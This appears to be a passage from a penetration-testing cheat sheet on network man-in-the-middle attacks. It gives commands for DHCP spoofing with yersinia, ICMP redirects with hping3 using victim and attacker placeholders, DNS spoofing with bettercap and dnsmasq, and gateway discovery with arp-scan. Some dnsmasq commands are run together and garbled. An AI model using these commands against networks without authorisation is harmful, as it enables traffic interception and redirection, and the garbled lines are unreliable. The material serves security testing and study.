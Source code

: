 ### Other Generic Tools & Sources

- [[https://github.com/c4s73r/Above|**Above**]]: Tool to scan network traffic and find vulnerabilities
- You can find some **more information about network attacks** [[https://github.com/Sab0tag3d/MITM-cheatsheet|**here**]].

## **Spoofing**

The attacker configures all the network parameters (GW, IP, DNS) of the new member of the network sending fake DHCP responses.

```bash
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```
```
### ARP Spoofing

Check the [[#arp-spoofing|previous section]].

### ICMPRedirect

ICMP Redirect consist on sending an ICMP packet type 1 code 5 that indicates that the attacker is the best way to reach an IP. Then, when the victim wants to contact the IP, it will send the packet through the attacker.

```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```
```
### DNS Spoofing

The attacker will resolve some (or all) the domains that the victim ask for.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```
```
**Configure own DNS with dnsmasq**

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```
```
### Local Gateways

Multiple routes to systems and networks often exist. Upon building a list of MAC addresses within the local network, use _gateway-finder.py_ to identify hosts that support IPv4 forwarding.

```
root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.
